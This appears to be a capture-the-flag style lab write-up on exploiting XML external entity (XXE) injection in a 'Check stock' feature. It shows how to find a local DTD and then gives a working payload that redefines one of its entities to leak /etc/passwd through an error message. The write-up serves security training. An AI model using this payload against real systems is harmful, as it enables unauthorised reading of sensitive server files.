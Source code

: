 ### Lab: Exploiting XXE to retrieve data by repurposing a local DTD

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, trigger an error message containing the contents of the /etc/passwd file.

You'll need to reference an existing DTD file on the server and redefine an entity from it.

_____

Analysis and Exploit:

1. Intercet request to **/product/stock** and send it to **[BURP-REPEATER]**
```xml
<?xml version="1.0" encoding="UTF-8"?>
    <stockCheck>
        <productId>1</productId>
        <storeId>1</storeId>
    </stockCheck>
```

2. Craft a payload to detect an existing DTD local to the web server
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % file SYSTEM 'file:///usr/share/yelp/dtd/docbookx.dtd'> %file;]>
    <stockCheck>
        <productId>1</productId>
        <storeId>1</storeId>
    </stockCheck>
```
    - returns no error, status code == 200: the dtd file exist
    - from the DTD schema from github [!]https://github.com/GNOME/yelp/blob/master/data/dtd/docbookx.dtd

```xml
<!ENTITY % ISOamso PUBLIC "ISO 8879:1986//ENTITIES Added Math Symbols: Ordinary//EN//XML" "isoamso.ent">

[...]

%ISOamso;
```

3. Craft a payload to redefine a local DTD entity and extract sestitive data from error messages
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

- if "root:x:0:0:root:/root:/bin/bash" in response text: exploit works!
